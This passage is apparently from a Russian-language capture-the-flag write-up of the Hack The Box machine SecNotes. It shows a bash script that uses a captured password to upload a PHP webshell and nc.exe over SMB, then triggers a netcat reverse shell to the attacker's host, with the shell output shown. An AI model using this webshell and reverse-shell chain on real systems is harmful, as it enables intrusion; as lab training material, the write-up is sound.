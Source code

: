 ```bash
smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put webshell.php evil.php' || (echo "[-] evil.php: Upload failed" && exit 1)
smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put /usr/share/windows-binaries/nc.exe nc.exe' || (echo "[-] nc.exe: Upload failed" && exit 1)
echo "[+] Sucessfully uploaded evil.php and nc.exe"

echo "[*] Triggering nc shell callback to ${IP}:${PORT}"
curl "http://10.10.10.97:8808/evil.php?cmd=nc.exe+${IP}+${PORT}+-e+c:\windows\system32\cmd.exe"
```

```text
root@kali:~# chmod +x secnotes_reverse_tcp.sh
root@kali:~# ./secnotes_reverse_tcp.sh 10.10.14.71 443
[*] Uploading evil.php and nc.exe
putting file webshell.php as \evil.php (0.2 kb/s) (average 0.2 kb/s)
putting file /usr/share/windows-binaries/nc.exe as \nc.exe (207.1 kb/s) (average 207.1 kb/s)
[+] Sucessfully uploaded evil.php and nc.exe
[*] Triggering nc shell callback to 10.10.14.71:443

```

```text
root@kali:~# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49690.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

## SQLi второго порядка
Выясним, откуда растут ноги у SQL-инъекции второго порядка. Для этого проанализируем исходный код приложения, осуществляющий взаимодействие с базой данных.

Вот вся магия, которая управляет веб-сайтом (да еще к тому же имитирует поведение Тайлера):
```text
C:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\inetpub\wwwroot

06/22/2018  05:51 AM    <DIR>          .
06/22/2018  05:51 AM    <DIR>          ..
06/22/2018  05:57 AM               402 auth.php
06/22/2018  05:57 AM             3,887 change_pass.php
06/22/2018  06:17 AM             2,556 contact.php
06/22/2018  05:57 AM               670 db.php
06/22/2018  05:58 AM             4,315 home.php
06/22/2018  05:57 AM             4,221 login.php
06/15/2018  01:44 PM               235 logout.php
06/22/2018  05:57 AM             5,168 register.php
06/22/2018  05:59 AM             3,956 submit_note.php
06/16/2018  07:05 PM               548 web.config
              10 File(s)         25,958 bytes
               2 Dir(s)  33,245,876,224 bytes free
```
